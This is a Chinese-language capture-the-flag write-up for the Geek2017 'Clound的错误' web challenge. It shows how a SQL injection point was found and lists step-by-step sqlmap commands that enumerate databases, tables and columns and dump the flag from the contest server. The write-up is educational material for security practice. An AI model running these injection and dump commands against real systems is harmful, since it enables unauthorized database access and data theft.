 ```yaml
---
layout:     post
title:      geek2017wp
subtitle:   
date:       2017-11-18
author:     FNX
header-img: img/home-bg-art.jpg
catalog: true
tags:
    - WP
    - Geek2017
    - WEB
---
```


## Geek2017

# Clound的错误

#### 0x00 [原理]
     kali虚拟机下的命令运用，sqlmap的使用
     
#### 0x01 [目的]
     了解kali系统下sqlmap的使用
     
#### 0x02 [环境]
     kali
     
#### 0x03 [工具]
     sqlmap
     
#### 0x04 [步骤]

1.首先打开address，是一张可爱的图片啊啊啊啊～并没有什么提示

![](/img/clound1.png)

2.右键查看源代码，有注入点的提示： sycid=1

![](/img/clound2.png)

3.http://game.sycsec.com:2007/?sycid=1

![](/img/clound3.png)

出现hint：select * from user where id='1'

4.使用sqlmap注入
  ①检测注入点是否可用:sqlmap -u "http://game.sycsec.com:2007/?sycid=1"  

  ![](/img/clound4.png)</br>

  ②暴库:sqlmap -u "http://game.sycsec.com:2007/?sycid=1" --dbs 

  ![](/img/clound5.png)

  库名：f1ag

  ③暴表:sqlmap -u "http://game.sycsec.com:2007/?sycid=1" -D f1ag --tables

  ![](/img/clound6.png)
  
  表名：flag

  ④暴字段:sqlmap -u "http://game.sycsec.com:2007/?sycid=1" -D f1ag -T flag --columns

  ![](/img/clound7.png)
  
  字段：f4ag 
  
  ⑤暴字段内容:sqlmap -u "http://game.sycsec.com:2007/?sycid=1" -D f1ag -T flag -C f4ag --dump
  
  ![](/img/clound8.png)
  
  字段内容：SYC{Err0r_sql_inj}
  
4.flag：SYC{Err0r_sql_inj}



#### 0x05 [总结]

  sqlmap使用

  详细可参考：[手工注入](https://www.2cto.com/article/201208/151503.html) [sqlmap基本教程](http://blog.csdn.net/zgyulongfei/article/details/41017493)





